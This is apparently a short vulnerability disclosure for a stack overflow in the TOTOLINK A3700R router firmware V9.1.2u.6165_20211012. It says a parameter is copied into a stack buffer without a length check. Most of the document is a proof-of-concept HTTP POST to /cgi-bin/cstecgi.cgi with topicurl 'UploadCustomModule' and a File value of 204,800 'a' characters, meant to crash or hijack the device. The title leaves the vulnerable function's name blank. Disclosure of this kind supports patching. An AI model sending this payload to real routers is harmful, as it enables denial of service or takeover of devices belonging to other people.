


# TOTOLINK A3700R V9.1.2u.6165_20211012 function 	  stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

Parameter `v7` is copied to buffer `v14` without checking the length



Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.


### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 53

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718246395:2


{"topicurl":"UploadCustomModule",

"File":"a"*204800}
```


